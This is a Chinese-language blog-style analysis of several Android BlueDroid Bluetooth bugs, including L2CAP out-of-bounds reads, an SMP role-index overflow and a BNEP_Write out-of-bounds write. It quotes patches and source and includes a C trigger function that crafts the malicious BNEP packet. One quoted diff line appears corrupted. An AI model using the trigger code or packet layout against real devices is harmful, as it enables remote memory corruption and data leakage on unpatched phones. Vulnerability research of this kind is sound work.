


最近分析了一些蓝牙漏洞，发现挺有趣的，蓝牙漏洞真的多啊，安卓上的蓝牙叫作BlueDroid
蓝牙有专门一份文档讲解细节，比如各类协议的细节，不同的协议该如何构建包，处理包，我读的是Core_v5.1，也叫作核心，在看大佬公开的POC的时候，我碰到不懂的宏都会去核心搜一下，一般都会有，注释写的非常详细，对照着核心去读源码，还是不错的，一开始会觉得协议很绕，但是多看核心，多理解代码的常见写法，比如如何获取用户传入的数据指针p，如何取不同字节长度的数据，慢慢的就不会纠结看不懂协议了
网络上有一些蓝牙的分析资料，比如360 Alpha Lab的JiounDai，大佬前两年研究的蓝牙，公开了一系列的POC，我就是跟着大佬的POC去搜谷歌安全公告，然后对照着补丁去反推漏洞，谢谢大佬，想起我毕业那会还是大佬面试的我
这里我分享一些我最近分析的漏洞
这是蓝牙协议栈，我们不关注下面的Bluetooth Radio和Bluetooth Baseband，只关心L2CAP和BNEP这两层，不要纠结在数据如何构建发送到底层，如何一层层传入啥的，我们只需要知道如何使用代码进行对应的连接，然后知道每一层的数据是如何发送与接收即可

process_l2cap_cmd L2CAP_CMD_INFO_REQ未判断缓冲区边界造成信息泄露
补丁修改的地方比较多，通过描述可以看到是在process_l2cap_cmd()里的一个越界读漏洞，补的都是同样的代码，说明这块代码缺少检查，这里只截取部分补丁代码
DO NOT MERGE Fix OOB read in process_l2cap_cmdBug: 74202041Bug: 74196706Bug: 74201143Test: manualChange-Id: Ic25f7f3777d0375f76cc91e4d129b1636f1c388d(cherry picked from commit ff15adf5150527db1012b9f7777066522835e2db)diff --git a/stack/l2cap/l2c_main.cc b/stack/l2cap/l2c_main.ccindex 83d1737..7c1ef48 100644--- a/stack/l2cap/l2c_main.cc+++ b/stack/l2cap/l2c_main.cc@@ -320,8 +320,16 @@switch (cmd_code) {case L2CAP_CMD_REJECT:+ if (p + 2 > p_next_cmd) {+ android_errorWriteLog(0x534e4554, "74202041");+ return;+ }STREAM_TO_UINT16(rej_reason, p);if (rej_reason == L2CAP_CMD_REJ_MTU_EXCEEDED) {+ if (p + 2 > p_next_cmd) {+ android_errorWriteLog(0x534e4554, "74202041");+ return;+ }STREAM_TO_UINT16(rej_mtu, p);/* What to do with the MTU reject ? We have negotiated an MTU. For now*/@@ -332,6 +340,10 @@p_lcb->handle, rej_mtu);}if (rej_reason == L2CAP_CMD_REJ_INVALID_CID) {+ if (p + 4 > p_next_cmd) {+ android_errorWriteLog(0x534e4554, "74202041");+ return;+ }STREAM_TO_UINT16(rcid, p);STREAM_TO_UINT16(lcid, p);...
我们挑第一个补丁点来分析，对p + 2进行计算判断
switch (cmd_code) {case L2CAP_CMD_REJECT:+ if (p + 2 > p_next_cmd) {+ android_errorWriteLog(0x534e4554, "74202041");+ return;+ }
找到代码对应的函数process_l2cap_cmd()，代码比较长，但是我们只需要关注关键的地方就行了，比如变量p的赋值，p来自上层函数
/********************************************************************************* Function process_l2cap_cmd** Description This function is called when a packet is received on the* L2CAP signalling CID** Returns void*******************************************************************************/static void process_l2cap_cmd(tL2C_LCB* p_lcb, uint8_t* p, uint16_t pkt_len) {...switch (cmd_code) {case L2CAP_CMD_REJECT:STREAM_TO_UINT16(rej_reason, p);if (rej_reason == L2CAP_CMD_REJ_MTU_EXCEEDED) {STREAM_TO_UINT16(rej_mtu, p);
当接收到ACL数据包，HCI接口就会调用l2c_rcv_acl_data()来处理，再往上就不需要跟了，因为这里已经取出了p
/********************************************************************************* Function l2c_rcv_acl_data** Description This function is called from the HCI Interface when an ACL* data packet is received.** Returns void*******************************************************************************/void l2c_rcv_acl_data(BT_HDR* p_msg) {uint8_t* p = (uint8_t*)(p_msg + 1) + p_msg->offset;...STREAM_TO_UINT16(handle, p);.../* Send the data through the channel state machine */if (rcv_cid == L2CAP_SIGNALLING_CID) {process_l2cap_cmd(p_lcb, p, l2cap_len); // <--osi_free(p_msg);}
补充一下STREAM_TO_UINT8()的实现如下，其它函数同理，p会往后移动
#define STREAM_TO_UINT8(u8, p) \{ \(u8) = (uint8_t)(*(p)); \(p) += 1; \}
所以再回到process_l2cap_cmd()，仔细读一下代码，看所有的漏洞点，其实就是取了4字节长度的信令长度之后，又在switch/case里进行了取值，而此时未进行判断取值的位置是否超出缓冲区范围
static void process_l2cap_cmd(tL2C_LCB* p_lcb, uint8_t* p, uint16_t pkt_len) {...// 如果是BT_TRANSPORT_LE模式直接返回，这里需要使用BT_TRANSPORT_BR_EDR/* if l2cap command received in CID 1 on top of an LE link, ignore this command */if (p_lcb->transport == BT_TRANSPORT_LE) return;// #define L2CAP_DEFAULT_MTU (672)/* Reject the packet if it exceeds the default Signalling Channel MTU */if (pkt_len > L2CAP_DEFAULT_MTU) {/* Core Spec requires a single response to the first command found in a*multi-command** L2cap packet. If only responses in the packet, then it will be ignored.** Here we simply mark the bad packet and decide which cmd ID to reject*later*/pkt_size_rej = true;L2CAP_TRACE_ERROR("L2CAP SIG MTU Pkt Len Exceeded (672) -> pkt_len: %d", pkt_len);}// 存储缓冲区起始地址与结束地址p_next_cmd = p;p_pkt_end = p + pkt_len;memset(&cfg_info, 0, sizeof(cfg_info));// 一个L2CAP包可能包含多个信令/* An L2CAP packet may contain multiple commands */while (true) {// 最短的信令是4字节/* Smallest command is 4 bytes */p = p_next_cmd; // p此时作为指针在缓冲区游动if (p > (p_pkt_end - 4)) break; // 保证剩余缓冲区至少还有4字节的数据剩余// 第一个字段是cmd_code// 第二个字段是id// 第三个字段是cmd_lenSTREAM_TO_UINT8(cmd_code, p);STREAM_TO_UINT8(id, p);STREAM_TO_UINT16(cmd_len, p);// #define BT_SMALL_BUFFER_SIZE 660if (cmd_len > BT_SMALL_BUFFER_SIZE) {L2CAP_TRACE_WARNING("L2CAP - Invalid MTU Size");l2cu_send_peer_cmd_reject(p_lcb, L2CAP_CMD_REJ_MTU_EXCEEDED, id, 0, 0);return;}// 检查加上当前信令长度后，不超过包的大小/* Check command length does not exceed packet length */p_next_cmd = p + cmd_len;if (p_next_cmd > p_pkt_end) {L2CAP_TRACE_WARNING("Command len bad pkt_len: %d cmd_len: %d code: %d", pkt_len, cmd_len, cmd_code);break;}L2CAP_TRACE_DEBUG("cmd_code: %d, id:%d, cmd_len:%d", cmd_code, id, cmd_len);// 包太大，要再考虑下是否丢掉/* Bad L2CAP packet length, look or cmd to reject */if (pkt_size_rej) {/* If command found rejected it and we're done, otherwise keep looking */if (l2c_is_cmd_rejected(cmd_code, id, p_lcb))return;elsecontinue; /* Look for next cmd/response in current packet */}// 准备进入漏洞区域switch (cmd_code) {case L2CAP_CMD_REJECT:// 取了2字节，取值前未判断：p + 2 > p_pkt_endSTREAM_TO_UINT16(rej_reason, p);if (rej_reason == L2CAP_CMD_REJ_MTU_EXCEEDED) {// 取了2字节，取值前未判断：p + 2 > p_pkt_endSTREAM_TO_UINT16(rej_mtu, p);L2CAP_TRACE_WARNING("L2CAP - MTU rej Handle: %d MTU: %d", p_lcb->handle, rej_mtu);}if (rej_reason == L2CAP_CMD_REJ_INVALID_CID) {// 取了4字节，取值前未判断：p + 4 > p_pkt_endSTREAM_TO_UINT16(rcid, p);STREAM_TO_UINT16(lcid, p);...}...// 本漏洞是信息泄露，所以需要泄露数据，也就是需要有往回发数据的函数// 刚好L2CAP_CMD_INFO_REQ满足，取了2字节数据，通过l2cu_send_peer_info_rsp()发送回去case L2CAP_CMD_INFO_REQ:// 取了两字节，取值前未判断：p + 2 > p_pkt_endSTREAM_TO_UINT16(info_type, p);l2cu_send_peer_info_rsp(p_lcb, id, info_type);break;...default:L2CAP_TRACE_WARNING("L2CAP - bad cmd code: %d", cmd_code);l2cu_send_peer_cmd_reject(p_lcb, L2CAP_CMD_REJ_NOT_UNDERSTOOD, id, 0, 0);return;}}}
process_l2cap_cmd L2CAP_CMD_CONN_REQ未判断缓冲区边界造成信息泄露
static void process_l2cap_cmd(tL2C_LCB* p_lcb, uint8_t* p, uint16_t pkt_len) {.../* An L2CAP packet may contain multiple commands */while (true) {/* Smallest command is 4 bytes */p = p_next_cmd; // p此时作为指针在缓冲区游动if (p > (p_pkt_end - 4)) break; // 保证剩余缓冲区至少还有4字节的数据剩余...switch (cmd_code) {...case L2CAP_CMD_CONN_REQ:// 取了4字节，取值前未判断：p + 2 > p_pkt_endSTREAM_TO_UINT16(con_info.psm, p);STREAM_TO_UINT16(rcid, p);p_rcb = l2cu_find_rcb_by_psm(con_info.psm);if (p_rcb == NULL) {L2CAP_TRACE_WARNING("L2CAP - rcvd conn req for unknown PSM: %d", con_info.psm);l2cu_reject_connection(p_lcb, rcid, id, L2CAP_CONN_NO_PSM);break;}...}}}
当l2cu_find_rcb_by_psm(con_info.psm)找不到的时候，就会返回NULL，会调用l2cu_reject_connection()，这个函数描述可以仔细看看，不存在PSM的时候就会调用，并且通过l2c_link_check_send_pkts()发送数据包回去
process_l2cap_cmd L2CAP_CMD_DISC_REQ未判断缓冲区边界造成信息泄露
当我们找不到CCB的时候，就会调用l2cu_send_peer_disc_rsp()
static void process_l2cap_cmd(tL2C_LCB* p_lcb, uint8_t* p, uint16_t pkt_len) {.../* An L2CAP packet may contain multiple commands */while (true) {/* Smallest command is 4 bytes */p = p_next_cmd; // p此时作为指针在缓冲区游动if (p > (p_pkt_end - 4)) break; // 保证剩余缓冲区至少还有4字节的数据剩余...switch (cmd_code) {...case L2CAP_CMD_DISC_REQ:// 取了4字节，取值前未判断：p + 2 > p_pkt_endSTREAM_TO_UINT16(lcid, p);STREAM_TO_UINT16(rcid, p);p_ccb = l2cu_find_ccb_by_cid(p_lcb, lcid);if (p_ccb != NULL) {if (p_ccb->remote_cid == rcid) {p_ccb->remote_id = id;l2c_csm_execute(p_ccb, L2CEVT_L2CAP_DISCONNECT_REQ, &con_info);}} elsel2cu_send_peer_disc_rsp(p_lcb, id, lcid, rcid);break;...}}}
这个函数用来发送停止连接的包，发送回去的还有内存数据
/********************************************************************************* Function l2cu_send_peer_disc_rsp** Description Build and send an L2CAP "disconnect response" message* to the peer.** This function is passed the parameters for the disconnect* response instead of the CCB address, as it may be called* to send a disconnect response when there is no CCB.** Returns void*******************************************************************************/void l2cu_send_peer_disc_rsp(tL2C_LCB* p_lcb, uint8_t remote_id, uint16_t local_cid, uint16_t remote_cid) {BT_HDR* p_buf;uint8_t* p;// 构建数据包头部p_buf = l2cu_build_header(p_lcb, L2CAP_DISC_RSP_LEN, L2CAP_CMD_DISC_RSP, remote_id);if (p_buf == NULL) {L2CAP_TRACE_WARNING("L2CAP - no buffer for disc_rsp");return;}// p指向缓冲区p = (uint8_t*)(p_buf + 1) + L2CAP_SEND_CMD_OFFSET + HCI_DATA_PREAMBLE_SIZE + L2CAP_PKT_OVERHEAD + L2CAP_CMD_OVERHEAD;// 将读取的4字节写入缓冲区发送回去UINT16_TO_STREAM(p, local_cid);UINT16_TO_STREAM(p, remote_cid);l2c_link_check_send_pkts(p_lcb, NULL, p_buf);}
这三个漏洞说来也有趣，它们在同一个补丁里修复
DO NOT MERGE Fix OOB read in process_l2cap_cmdBug: 74202041Bug: 74196706Bug: 74201143Test: manualChange-Id: Ic25f7f3777d0375f76cc91e4d129b1636f1c388d(cherry picked from commit ff15adf5150527db1012b9f7777066522835e2db)
Quarkslab发现了这三个漏洞其中两个，真是皂滑弄人啊，这么明显的漏洞大佬们竟然漏了一个，而且就在同一个地方，以后审计的时候还是要仔细些，说不定就捡漏了呢

我们看到，这里还有一个漏洞：smp_sm_event() OOB Array indexing
smp_sm_event数组越界访问导致RCE
补丁
补丁描述修复了在smp_sm_event()里的非预期，判断了p_cb->role大于等于2则报错返回，我们猜测这里可能是字段p_cb->role可以由连接者控制
DO NOT MERGE Fix unexpected behavior in smp_sm_eventBug: 74121126Test: manualChange-Id: Ie5dd841d6461ad057c4ab572007f38c5446aba53(cherry picked from commit 652798b2f2d6c90e0fc95c00ccfb91e2870b03d4)diff --git a/stack/smp/smp_main.cc b/stack/smp/smp_main.ccindex 829a5d4..49e2ece 100644--- a/stack/smp/smp_main.cc+++ b/stack/smp/smp_main.cc@@ -18,6 +18,7 @@#include "bt_target.h"+#include <cutils/log.h>#include <string.h>#include "smp_int.h"@@ -954,6 +955,13 @@uint8_t curr_state = p_cb->state;tSMP_SM_TBL state_table;uint8_t action, entry, i;++ if (p_cb->role >= 2) {+ SMP_TRACE_DEBUG("Invalid role: %d", 1. );+ android_errorWriteLog(0x534e4554, "74121126");+ return;+ }+tSMP_ENTRY_TBL entry_table = smp_entry_table[p_cb->role];SMP_TRACE_EVENT("main smp_sm_event");
我们从头开始分析，当SMP Channel有来自L2CAP的数据时，会调用smp_data_received()进行数据的处理，这里我们的关注点在于cmd为SMP_OPCODE_PAIRING_REQ 0x01时的情况，当传入的是SMP_OPCODE_PAIRING_REQ，会调用L2CA_GetBleConnRole()
static void smp_data_received(uint16_t channel, const RawAddress& bd_addr,BT_HDR* p_buf) {tSMP_CB* p_cb = &smp_cb;uint8_t* p = (uint8_t*)(p_buf + 1) + p_buf->offset;uint8_t cmd;SMP_TRACE_EVENT("SMDBG l2c %s", __func__);STREAM_TO_UINT8(cmd, p); // 取第一字节/* sanity check */if ((SMP_OPCODE_MAX < cmd) || (SMP_OPCODE_MIN > cmd)) {SMP_TRACE_WARNING("Ignore received command with RESERVED code 0x%02x", cmd);osi_free(p_buf);return;}// #define SMP_OPCODE_PAIRING_REQ 0x01// 当第一字节是0x01时，会进入第一个if分支/* reject the pairing request if there is an on-going SMP pairing */if (SMP_OPCODE_PAIRING_REQ == cmd || SMP_OPCODE_SEC_REQ == cmd) {if ((p_cb->state == SMP_STATE_IDLE) &&(p_cb->br_state == SMP_BR_STATE_IDLE) &&!(p_cb->flags & SMP_PAIR_FLAGS_WE_STARTED_DD)) {p_cb->role = L2CA_GetBleConnRole(bd_addr); //这里进行p_cb->role的赋值p_cb->pairing_bda = bd_addr;} else if (bd_addr != p_cb->pairing_bda) {osi_free(p_buf);smp_reject_unexpected_pairing_command(bd_addr);return;}...}
其中第二个参数类型RawAddress的部分实现如下，可以看到其数据以及转换的方式
static_assert(sizeof(RawAddress) == 6, "RawAddress must be 6 bytes long!");const RawAddress RawAddress::kAny{{0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF}};const RawAddress RawAddress::kEmpty{{0x00, 0x00, 0x00, 0x00, 0x00, 0x00}};RawAddress::RawAddress(const uint8_t (&addr)[6]) {std::copy(addr, addr + kLength, address);};std::string RawAddress::ToString() const {return base::StringPrintf("%02x:%02x:%02x:%02x:%02x:%02x", address[0],address[1], address[2], address[3], address[4],address[5]);}
L2CA_GetBleConnRole()会先给role赋值为HCI_ROLE_UNKNOWN，这个值是0xff，之后进行遍历搜索，如果搜到了就将role赋值为p_lcp->link_role，如果没搜到就是初始化的值0xff
/* HCI role defenitions */#define HCI_ROLE_MASTER 0x00#define HCI_ROLE_SLAVE 0x01#define HCI_ROLE_UNKNOWN 0xffuint8_t L2CA_GetBleConnRole(const RawAddress& bd_addr) {uint8_t role = HCI_ROLE_UNKNOWN;tL2C_LCB* p_lcb;p_lcb = l2cu_find_lcb_by_bd_addr(bd_addr, BT_TRANSPORT_LE);if (p_lcb != NULL) role = p_lcb->link_role;return role;}
回到smp_data_received()，会调用到smp_sm_event()
static void smp_data_received(uint16_t channel, const RawAddress& bd_addr,BT_HDR* p_buf) {.../* reject the pairing request if there is an on-going SMP pairing */if (SMP_OPCODE_PAIRING_REQ == cmd || SMP_OPCODE_SEC_REQ == cmd) {if ((p_cb->state == SMP_STATE_IDLE) &&(p_cb->br_state == SMP_BR_STATE_IDLE) &&!(p_cb->flags & SMP_PAIR_FLAGS_WE_STARTED_DD)) {p_cb->role = L2CA_GetBleConnRole(bd_addr); // <-- 1p_cb->pairing_bda = bd_addr;}...if (bd_addr == p_cb->pairing_bda) {...p_cb->rcvd_cmd_code = cmd;p_cb->rcvd_cmd_len = (uint8_t)p_buf->len;smp_sm_event(p_cb, cmd, p); // <-- 2}osi_free(p_buf);}
通过查看该函数，我们可以注意到，后续会直接使用该字段作为下标对数组进行取值操作
void smp_sm_event(tSMP_CB* p_cb, tSMP_EVENT event, void* p_data) {uint8_t curr_state = p_cb->state;tSMP_SM_TBL state_table;uint8_t action, entry, i;tSMP_ENTRY_TBL entry_table = smp_entry_table[p_cb->role];...
我们通过源码找到smp_entry_table的定义，这个数组的长度只有2，结合前面的分析，smp_entry_table[p_cb->role]的取值可能是smp_entry_table[0x00]，smp_entry_table[0x01]和smp_entry_table[0xff]，所以这里就出现了一个越界访问的漏洞
static const tSMP_ENTRY_TBL smp_entry_table[] = {smp_master_entry_map, smp_slave_entry_map};
谷歌给这个漏洞的评级是Critical RCE，所以它是可以进行利用的，关于利用的姿势有待我找大佬学习一下
| CVE | 参考编号 | 类型 | 严重程度 | 已更新的 AOSP 版本 |
|---|---|---|---|---|
| CVE-2018-9365 | A-74121126 | RCE | Critical | 6.0、6.0.1、7.0、7.1.1、7.1.2、8.0、8.1 |
BNEP_Write越界写导致RCE
补丁
这个漏洞我本来想先自己分析出来，但是没有找到漏洞点
我们先来看漏洞函数，这个函数是用于在BNEP连接里传输数据，所以我们需要先进行BNEP连接，一次BNEP连接，在处理数据包的时候，如果传入的是包指定了协议BNEP_802_1_P_PROTOCOL，就会触发漏洞
/********************************************************************************* Function BNEP_Write** Description This function sends data over a BNEP connection** Parameters: handle - handle of the connection to write* p_dest_addr - BD_ADDR/Ethernet addr of the destination* p_data - pointer to data start* protocol - protocol type of the packet* p_src_addr - (optional) BD_ADDR/ethernet address of the* source* (should be NULL if it is local BD Addr)* fw_ext_present - forwarded extensions present** Returns: BNEP_WRONG_HANDLE - if passed handle is not valid* BNEP_MTU_EXCEDED - If the data length is greater than* the MTU* BNEP_IGNORE_CMD - If the packet is filtered out* BNEP_Q_SIZE_EXCEEDED - If the Tx Q is full* BNEP_NO_RESOURCES - If not able to allocate a buffer* BNEP_SUCCESS - If written successfully*******************************************************************************/tBNEP_RESULT BNEP_Write(uint16_t handle, const RawAddress& p_dest_addr,uint8_t* p_data, uint16_t len, uint16_t protocol,const RawAddress* p_src_addr, bool fw_ext_present) {tBNEP_CONN* p_bcb;uint8_t* p;// MTU检查/* Check MTU size. Consider the possibility of having extension headers */if (len > BNEP_MTU_SIZE) {BNEP_TRACE_ERROR("BNEP_Write() length %d exceeded MTU %d", len, BNEP_MTU_SIZE);return (BNEP_MTU_EXCEDED);}// handle检查if ((!handle) || (handle > BNEP_MAX_CONNECTIONS)) return (BNEP_WRONG_HANDLE);p_bcb = &(bnep_cb.bcb[handle - 1]); // 获取p_pcb/* Check if the packet should be filtered out */if (bnep_is_packet_allowed(p_bcb, p_dest_addr, protocol, fw_ext_present, p_data) != BNEP_SUCCESS) {/*** If packet is filtered and ext headers are present** drop the data and forward the ext headers*/if (fw_ext_present) {uint8_t ext, length;uint16_t org_len, new_len;/* parse the extension headers and findout the new packet len */org_len = len; // org_len表示Buffer原本长度new_len = 0; // new_len表示新的Buffer长度p = p_data; // p表示Buffer原始起始地址do {ext = *p_data++; // 获取第一个字节作为extlength = *p_data++; // 获取第二个字节作为lengthp_data += length; // 移动p_data指向下一个扩展起始地址new_len += (length + 2); // new_length加上ext，length两字节，再加上length长度的数据if (new_len > org_len) return BNEP_IGNORE_CMD; // new_len不能超过原始Buffer整体长度org_len} while (ext & 0x80);if (protocol != BNEP_802_1_P_PROTOCOL)protocol = 0;else {// new_len加上4new_len += 4;p_data[2] = 0;p_data[3] = 0;}len = new_len; // len为最终的新Buffer长度p_data = p; // p_data重新指向Buffer起始} elsereturn BNEP_IGNORE_CMD;}...}
通过阅读POC，如下构造数据包，传入BNEP()的p_data就是ext_1开始往后的数据
我解释一下：
ext为0x81，表示还有一个ext，length为0x00，这样一轮循环后，p_data就指向了ext_2，new_len为2ext为0x00，表示后面没有ext了，length为0x00，第二轮循环结束后，p_data指向OOB出了循环，指定protocol为0x8100也就是BNEP_802_1_P_PROTOCOL，就可以进入else分支，new_len加上4我没有理解在计算什么，后面直接对p_data[2]和p_data[3]进行赋值操作，此时完全没有判断OOB[0]开始往后4个字节属于Buffer边界内，这就是一个越界写漏洞
| ext(1) | dst_addr(6) | src_addr(6) | Protocol(2) | ext_1(1) | Len_1(1) | ext_2(1) | Len_2(1) | OOB[0] | OOB[1] | OOB[2] | OOB[3] |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 0x80 | 0x8100 | 0x81 | 0x00 | 0x00 | 0x00 |
构造关键数据包的步骤如下
static int send_trigger_req(int sock_fd, uint8_t *dst, uint8_t *src){uint8_t *buf, *p;int ret = 0;p = buf = malloc(0x200);memset(buf, 0, 0x200);uint8_t type = 0x80; // for ext*p++ = type;uint8_t dst_addr[6], src_addr[6];getbd(dst, dst_addr);memcpy(p, dst_addr, 6); // dst_addrp += 6;getbd(src, src_addr);memcpy(p, src_addr, 6); //src_addp += 6;// #define BNEP_802_1_P_PROTOCOL 0x8100uint16_t protocol = 0x8100;UINT16_TO_BE_STREAM(p, protocol);// rem_len startuint8_t ext_type = 0x81;*p++ = ext_type; // enter while loop, and breakuint8_t len = 0x00;*p++ = len; // new_len = 2uint8_t ext2 = 0x00;*p++ = ext2;uint8_t *p_len2 = p; // 此时p和p_len2指向的是Len_2p++; // p加1，指向OOB[0]uint8_t len2 = p - buf - 15 - 2 - 2; // 这里计算出来就是0，len2 = 0UINT8_TO_BE_STREAM(p_len2, len2); // 将0写到Len2_2的位置send(sock_fd, buf, p - buf, 0);free(buf);}
每一个漏洞更具体的分析等到假期结束再跟大家见面吧